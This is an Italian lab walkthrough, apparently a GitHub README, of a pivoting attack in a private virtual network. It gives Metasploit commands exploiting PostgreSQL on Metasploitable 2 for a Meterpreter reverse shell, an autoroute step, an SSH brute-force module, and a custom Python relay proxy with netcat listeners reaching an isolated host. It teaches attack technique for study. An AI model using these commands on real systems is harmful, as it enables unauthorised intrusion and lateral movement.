






# Network Pivoting & Traffic Forwarding: Da Kali a una Rete Isolata

Questo progetto documenta un attacco di Pivoting multistadio. L'obiettivo è dimostrare come un attaccante possa infiltrarsi in una rete interna isolata utilizzando una macchina compromessa come "ponte" (Pivot).

### Obiettivi Didattici

Il laboratorio si focalizza su scenari reali di sicurezza informatica:
1. **Compromissione Perimetrale**
> Sfruttamento di una vulnerabilità reale (PostgreSQL misconfiguration) su un host esposto.
2. **Dual-Homed Discovery**
> Identificazione di una seconda interfaccia di rete (rete interna) non accessibile dall'esterno.
3. **Lateral Movement & Pivoting**
> Utilizzo di tecniche di routing (autoroute) per estendere il raggio d'azione dell'attaccante.
4. **Credential Auditing**
> Attacco brute-force SSH basato su credenziali deboli (comune in ambienti non protetti).
5. **Custom Proxying**
> Implementazione di un proxy Python artigianale per comprendere il funzionamento del port forwarding a basso livello, oltre gli strumenti automatizzati.

### Scenario di Rete

| Macchina | Ruolo | Interfaccia Esterna (NAT) | Interfaccia Interna (Host-only) |
| :--- | :--- | :--- | :--- |
| **Kali** | Attaccante | 192.168.23.128 | Nessuna |
| **Metasploitable 2** | Pivot | 192.168.23.134 | 192.168.254.129 |
| **Lubuntu** |Target | Nessuna | 192.168.254.128 |

Lubuntu è raggiungibile solo tramite Metasploitable 2.

## Fase 0 - Preparazione su Kali

Iniziamo preparando lo script `proxy.py`, il quale:
- Apre un server socket sulla porta `4040` del Pivot.
- Quando riceve una connessione, apre un socket verso Kali (porta `5050`).
- tilizza `select.select()` per scambiare bidirezionalmente i dati tra i due socket.

### Preparazione file e liste:

```bash
# Crea il file proxy.py
cat > proxy.py << 'EOF'
```

Incolliamo quanto segue:

```python
#!/usr/bin/env python
import sys, socket, select

def proxy(local_host, local_port, remote_host, remote_port):
    # Setup del server locale sul pivot
    server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    try:
        server.bind((local_host, local_port))
    except Exception, e:
        print "Errore bind: %s" % str(e)
        return

    server.listen(1)
    # Sintassi Python 2.5: niente parentesi per print, niente .format()
    print "Proxy in ascolto su %s:%s" % (local_host, local_port)
    
    client, addr = server.accept()
    print "Connessione ricevuta da %s:%s" % (addr[0], addr[1])
    
    # Connessione verso Kali
    remote = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    try:
        remote.connect((remote_host, remote_port))
    except Exception, e:
        print "Errore connessione verso Kali: %s" % str(e)
        client.close()
        return

    sockets = [client, remote]
    
    try:
        while True:
            # Select è il modo più portabile per gestire I/O multipli su versioni vecchie
            rlist, _, _ = select.select(sockets, [], [])
            for s in rlist:
                data = s.recv(4096)
                if not data:
                    print "Connessione chiusa."
                    return
                if s is client:
                    remote.send(data)
                else:
                    client.send(data)
    finally:
        client.close()
        remote.close()
        server.close()

if __name__ == "__main__":
    if len(sys.argv) < 5:
        print "Uso: python proxy.py <local_host> <local_port> <remote_host> <remote_port>"
        sys.exit(1)
    proxy(sys.argv[1], int(sys.argv[2]), sys.argv[3], int(sys.argv[4]))
```

Infine:

```bash
EOF

chmod +x proxy.py

echo "lubuntu" > userlist.txt
echo "lubuntu" > passlist.txt
```

# Execution Path

## Fase 1 – Compromissione del Pivot

Sfruttiamo il servizio PostgreSQL su Metasploitable per ottenere una sessione Meterpreter.

### Terminale 1 – Kali

```bash
sudo msfconsole -q
```

All’interno di msf:

```bash
use exploit/linux/postgres/postgres_payload
set LHOST 192.168.23.128
set RHOST 192.168.23.134
set PAYLOAD linux/x86/meterpreter/reverse_tcp
run
```



Dopo pochi secondi otterremo una sessione Meterpreter.

```bash
ifconfig
```



## Fase 2 – Configurazione del routing

Una volta dentro, scopriamo la rete `192.168.254.0/24`. Istruiamo Metasploit a instradare il traffico attraverso la sessione attiva

```bash
run autoroute -s 192.168.254.0/24
```

Output: `[+] Added route to 192.168.254.0/255.255.255.0 via 192.168.23.134`


## Fase 3 – Attacco al Target

Ora che Metasploit "vede" la rete interna, lanciamo un brute force SSH contro Lubuntu.

```bash
background

use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.254.128
set USER_FILE userlist.txt
set PASS_FILE passlist.txt
set VERBOSE true
run
```

Se il dizionario contiene le credenziali, l'attacco avrà successo:



e una nuova sessione (shell Linux) verrà aperta.

```bash
sessions -l
```



## Fase 4 – Creazione del Ponte (Proxy)

Per stabilire un canale di comunicazione indipendente da Metasploit, carichiamo ed eseguiamo il proxy personalizzato.

### Terminale 2 – Kali

```bash
nc -lvnp 5050
```

### Terminale 1 – Kali

```bash
sessions -i 1
upload proxy.py /tmp/proxy.py
shell
python /tmp/proxy.py 0.0.0.0 4040 192.168.23.128 5050
```



## Fase 5 - Connessione al Target

CTRL + Z
y

```bash
sessions -i 2
python3 -c 'import pty; pty.spawn("/bin/bash")'
nc 192.168.254.129 4040
```

Nel terminale 2 di Kali ora dovremmo vedere: `connect to [192.168.23.128] from (UNKNOWN) [192.168.23.134] ...`

Se scriviamo qualcosa nel terminale 1 , ad esempio `Ciao da Lubuntu`, dovrebbe apparire sul terminale di Kali.

